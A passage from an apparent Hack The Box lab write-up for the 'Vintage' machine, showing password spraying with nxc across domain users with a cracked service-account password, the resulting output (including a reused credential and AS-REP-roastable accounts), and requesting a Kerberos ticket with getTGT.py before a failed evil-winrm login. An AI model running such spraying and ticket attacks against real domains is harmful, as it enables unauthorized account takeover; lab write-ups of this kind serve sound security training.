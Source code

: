 ## User
We are only able to crack the password for `svc_sql` which is `Zer0the0ne`. Well we got a password but the account is not of much use, so lets do some password spraying.

```console
$ nxc smb dc01.vintage.htb -u users.txt -p Zer0the0ne -k --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\DC01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\gMSA01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\FS01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ldap account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ark account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
```

The password is also valid for the user `C.Neri`. This user is also part of the `Remote Management Users` group so this will be our initial access.

```console
$ getTGT.py vintage.htb/C.Neri -dc-ip 10.10.11.45

Password:Zer0the0ne
[*] Saving ticket in C.Neri.ccache

$ export KRB5CCNAME=C.Neri.ccache
$ evil-winrm -i dc01.vintage.htb -r vintage.htb

Info: Establishing connection to remote endpoint
Cannot find KDC for realm "VINTAGE.HTB"

Error: Exiting with code 1
```

